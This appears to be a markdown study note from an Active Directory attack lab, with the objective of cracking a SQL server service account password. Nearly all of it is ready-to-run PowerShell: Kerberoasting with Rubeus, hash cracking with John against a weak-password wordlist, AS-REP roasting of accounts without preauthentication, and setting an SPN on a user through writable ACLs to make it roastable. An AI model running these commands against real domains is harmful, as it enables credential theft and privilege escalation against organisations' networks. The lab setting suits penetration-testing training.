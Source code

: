 


# Domain Privilege Escalation _2:

### Objective 14:

- Using the Kerberoast attack, crack password of a SQL server service account.

###### Method 1:  (using Rubeus)

`:1433` need to be remove before john..
```powershell

####Enumerate all accound used as a Service Account
Get-DomainUser -SPN


C:\AD\Tools\Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt

C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

```


###### Method 2: (PreAuthDisabled)

```powershell
####Enumerating accounts with Kerberos Preauth disabled

Get-DomainUser -PreauthNotRequired -Verbose
(OR)
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
(OR)
Invoke-ASREPRoast -Verbose


####Request encrypted AS-REP

Get-ASREPHash -UserName <Username> -Verbose


####Note: Once got hash Crack with john or hashcat

```


###### Method 3: (Set_SPN)

```powershell

####Enumerate the permissions for RDPUsers on ACLs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
Get-DomainUser -Identity supportuser | select serviceprincipalname
(OR)
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName



####Set a SPN for the user 
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
(OR)
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}


```